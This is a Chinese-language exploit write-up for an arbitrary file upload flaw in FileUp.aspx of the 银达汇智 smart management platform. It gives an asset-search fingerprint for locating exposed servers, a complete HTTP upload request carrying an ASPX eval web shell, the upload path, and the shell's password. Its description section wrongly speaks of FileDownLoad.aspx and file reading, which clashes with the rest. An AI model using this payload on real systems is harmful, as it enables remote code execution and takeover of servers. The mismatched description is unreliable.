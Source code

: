 # 银达汇智 智慧综合管理平台 FileUp.aspx 任意文件上传漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

<a-checkbox checked>银达汇智 智慧综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"汇智信息" && title=="智慧综合管理平台登入"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed.png)

文件上传请求包

```bash
POST /Module/FileUpPage/FileUp.aspx?orgid=1&type=NNewsContent HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 337
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=62907949903a4c499178971c9dab4ad9

--62907949903a4c499178971c9dab4ad9
Content-Disposition: form-data; name="Filedata"; filename="abc.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript"%><%Response.Write(FormsAuthentication.HashPasswordForStoringInConfigFile("abc", "MD5").ToLower());eval(Request.Item["cmd"],"unsafe");%>
--62907949903a4c499178971c9dab4ad9--
```

![img](../../../.vuepress/public/img/1629368451848-7ecbcd3e-82cc-4608-b9a9-a312826248ea.png)

响应包会返回文件名，上传的目录为

```bash
/imgnews/imgcontent/1/xxxxxxxxxx.aspx
```

![img](../../../.vuepress/public/img/1629368525052-fffda86a-30fa-4dc0-a3a0-537a0be5b5c3.png)

出现如图成功上传木马，密码为 **cmd**
